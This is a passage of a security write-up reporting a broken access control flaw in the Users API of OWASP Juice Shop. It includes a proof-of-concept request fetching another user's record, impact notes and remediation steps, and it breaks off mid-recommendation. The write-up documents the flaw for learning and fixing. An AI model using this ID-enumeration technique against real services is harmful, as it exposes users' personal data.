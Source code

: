 **Category:** #a1_broken_access_control #a5_security_misconfiguration  

---

## Overview
The **Users API** exposes sensitive user information and does not enforce proper **access control checks**.  
Any authenticated user can supply an arbitrary **user ID** to retrieve details of other users, including email addresses and roles.  

---
## Proof of Concept  

### Request
```http
GET /api/Users/3 HTTP/1.1
Host: localhost:3000
Authorization: Bearer <valid_token>
```

### Response
```json
{
  "status": "success",
  "data": {
    "id": 3,
    "username": "",
    "email": "bender@juice-sh.op",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "",
    "profileImage": "assets/public//images/uploads/default.svg",
    "isActive": true,
    "createdAt": "2025-08-10T14:20:03.249Z",
    "updatedAt": "2025-08-10T14:20:03.249Z",
    "deletedAt": null
  }
}
```

- The attacker requested `/api/Users/3` and successfully obtained **personal data** for another user.  
- No **authorization check** was performed to confirm ownership.  

---
## Impact
- **User enumeration:** An attacker can loop through IDs to retrieve all registered users.  
- **Information disclosure:** Email addresses, roles, and account states are leaked.  
- **Targeted attacks:** Exposed information may be used for phishing, social engineering, or privilege escalation.  

**Severity:** High  

---
## Recommendations
1. **Enforce Authorization:** Ensure users can only access **their own profile** unless explicitly authorized (e.g., admins).  
2. **Use Access Control Middleware:** Apply ownership checks at the controller/service level.  
3. **Restrict Data Exposure:** Return only the fields strictly necessary (e
